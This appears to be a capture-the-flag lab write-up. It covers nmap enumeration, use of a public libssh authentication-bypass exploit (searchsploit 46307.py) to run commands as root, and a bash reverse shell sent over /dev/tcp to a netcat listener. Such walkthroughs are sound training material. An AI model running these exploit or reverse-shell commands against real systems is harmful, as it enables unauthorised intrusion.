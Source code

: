 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)

## Recon-Enumeration  
nmap -A -p- 10.2.0.5  
![alt text](./img/firstmachine01.PNG?raw=true)  


Ok, verfy feel options to work. Let’s try to search some exploit for libssh

## Exploit  
searchsploit libssh  
![alt text](./img/firstmachine02.PNG?raw=true)  

Reading the code it asks 3 arguments... hostname, port and command  
searchsploit -x linux/remote/46307.py  
![alt text](./img/firstmachine03.PNG?raw=true)  

python3 46307.py 10.2.0.5 8140 whoami  
![alt text](./img/firstmachine04.PNG?raw=true)  

Wow, we have root. Let’s try to get an reverse shell  

Setup an netcat listener  
	nc -nvlp 1234

And run the command  
python3 46307.py 10.2.0.5 8140 "bash -c 'exec bash -i &>/dev/tcp/10.2.0.4/1234 <&1'"  
![alt text](./img/firstmachine05.PNG?raw=true)  
HABEMUS SHELL \o/

Since we are root, just grab the flag  
![alt text](./img/firstmachine06.PNG?raw=true)  
